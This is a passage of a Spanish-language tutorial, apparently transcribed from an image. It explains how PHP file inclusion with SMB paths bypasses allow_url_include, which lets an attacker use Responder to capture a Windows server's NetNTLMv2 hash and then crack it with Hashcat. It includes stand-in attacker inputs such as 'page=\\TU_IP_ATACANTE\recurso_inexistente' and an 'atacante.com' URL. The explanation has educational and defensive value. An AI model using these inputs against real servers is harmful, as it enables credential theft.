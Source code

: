La Excepción Peligrosa: URLs SMB y NTLM
Sin embargo, el texto señala un punto crucial:

"However, even if allow_url_include and allow_url_fopen are set to 'Off', PHP will not prevent the loading of SMB URLs."

Aquí está la vulnerabilidad o, mejor dicho, el comportamiento inesperado. Aunque PHP se protege contra las inclusiones HTTP y FTP, no tiene la misma restricción para las URLs SMB (Server Message Block). SMB es un protocolo de red utilizado principalmente por Windows para compartir archivos, impresoras y comunicarse con otros dispositivos en una red local.

¿Qué significa esto?

Significa que si una aplicación PHP vulnerable tiene una inclusión de archivo (como un LFI que permite manipular la ruta del archivo), y aunque no pueda cargar un archivo malicioso desde http://atacante.com/malicious.php (porque allow_url_include está Off), sí podría intentar cargar un recurso desde una ruta SMB, por ejemplo:

\\TU_IP_ATACANTE\recurso_inexistente

El atacante configura Responder: El atacante (tú, en tu Kali Linux) utiliza una herramienta como Responder. Responder es una herramienta fantástica para ataques de hombre en el medio (MITM) que, entre otras cosas, puede simular varios servicios (como SMB, HTTP, FTP, etc.) en tu máquina de atacante y "escuchar" las peticiones de autenticación.

El servidor Windows "llama" al atacante vía SMB: Cuando la aplicación PHP vulnerable en el servidor Windows intenta "cargar" la URL SMB que le pasaste (por ejemplo, \\TU_IP_ATACANTE\cualquier_cosa), el sistema operativo Windows subyacente intenta conectarse al servidor SMB que está "escuchando" en tu máquina de atacante.

Proceso de autenticación NTLM: Durante este intento de conexión SMB, el cliente Windows (el servidor web vulnerable) iniciará un proceso de autenticación NTLM con tu máquina de atacante (que Responder está simulando).

Responder captura el NTLMv2 Hash: Como vimos en la explicación anterior, el proceso de autenticación NTLM envía un desafío y una respuesta (el NetNTLMv2 hash) que no es la contraseña en sí, pero sí un derivado criptográfico que puede ser capturado. Responder intercepta y registra este NetNTLMv2 hash.

El hash está capturado: Una vez que Responder ha capturado este hash, el atacante puede intentar crackearlo (romperlo) usando herramientas como Hashcat para recuperar la contraseña original del usuario bajo el cual se está ejecutando el servicio web en el servidor Windows.

La aplicación web NO tiene una contraseña SMB "incorporada"
La aplicación PHP que se está ejecutando en el servidor web no tiene un campo de configuración donde tú le digas "esta es la contraseña para usar SMB". En la mayoría de los casos de vulnerabilidad LFI/RFI que permiten la captura de hashes NTLMv2, lo que sucede es lo siguiente:

La aplicación web (PHP) simplemente intenta "acceder" a una ruta de archivo. Por ejemplo, cuando se le pasa page=\\TU_IP_ATACANTE\recurso_inexistente. PHP simplemente le dice al sistema operativo subyacente: "Necesito leer este archivo en esta ruta".

Windows toma el control de la conexión SMB. Es el sistema operativo Windows (donde está alojado el servidor web, digamos un IIS o Apache con PHP) el que interpreta esa ruta SMB como un intento de acceder a un recurso compartido de red. Cuando Windows intenta conectarse a un recurso SMB, automáticamente intentará autenticarse.

